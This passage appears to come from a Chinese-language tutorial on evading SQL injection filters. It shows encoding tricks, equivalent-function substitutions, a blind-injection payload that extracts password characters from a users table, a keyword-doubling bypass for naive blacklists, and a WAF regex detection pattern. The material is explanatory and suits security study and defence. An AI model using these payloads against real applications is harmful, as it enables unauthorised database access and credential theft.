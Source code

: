 ```sql
VALUES ROW(1,2,3), ROW(4,5,6);
```

> VALUES和TABLES语句的结果都是表数据，可以结合起来使用

## 使用**编码**绕过过滤

如`URLEncode`编码，`ASCII`,`HEX`,`unicode`编码绕过

`or 1=1`即`%6f%72%20%31%3d%31`，而`Test`也可以为`CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)`

## 使用**等价函数**绕过过滤

```sql
hex()、bin() ==> ascii()

sleep() ==>benchmark()

concat_ws()==>group_concat()

mid()、substr() ==> substring()

@@user ==> user()

@@datadir ==> datadir()

举例：substring()和substr()无法使用时：?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74　

或者：
substr((select 'password'),1,1) = 0x70
strcmp(left('password',1), 0x69) = 1
strcmp(left('password',1), 0x70) = 0
strcmp(left('password',1), 0x71) = -1
```

## 补充：进行过滤的几种思路

### 黑名单字符替换

这种是最简单的，针对某些黑名单关键字，直接进行 str_replace

如果替换的不完全，可以用 `selselectect` 来替换 `select` 绕过

### 正则匹配

在一些waf或者cms会见到类似如下的防护代码

```php
$filter = "\\<.+javascript:window\\[.{1}\\\\x|<.*=(&#\\d+?;?)+?>|<.*(data|src)=data:text\\/html.*>|\\b(alert\\(|confi
rm\\(|expression\\(|prompt\\(|benchmark\s*?\(.*\)|sleep\s*?\(.*\)|load_file\s*?\\()|<[a-z]+?\\b[^>]*?\\bon([a-z]{4,})
\s*?=|^\\+\\/v(8|9)|\\b(and|or)\\b\\s*?([\\(\\)'\"\\d]+?=[\\(\\)'\"\\d]+?|[\\(\\)'\"a-zA-Z]+?=[\\(\\)'\"a-zA-Z]+?|>|<
|\s+?[\\w]+?\\s+?\\bin\\b\\s*?\(|\\blike\\b\\s+?[\"'])|\\/\\*.*\\*\\/|<\\s*script\\b|\\bEXEC\\b|UNION.+?SELECT(\(|@{1
,2}\w+?\s*|\s+?.+?|.*(`|'|\").+(`|'|\")\s*)|UPDATE\s*(\(.+\)\s*|@{1,2}.+?\s*|\s+?.+?|(`|'|\").*?(`|'|\")\s*)SET|INSER
T\\s+INTO.+?VALUES|(SELECT|DELETE).+?FROM\s+?|(CREATE|ALTER|DROP|TRUNCATE)\\s+(TABLE|DATABASE)|FROM\s.?|\(select|\(\s
select|\bunion\b|select\s.+?";
```

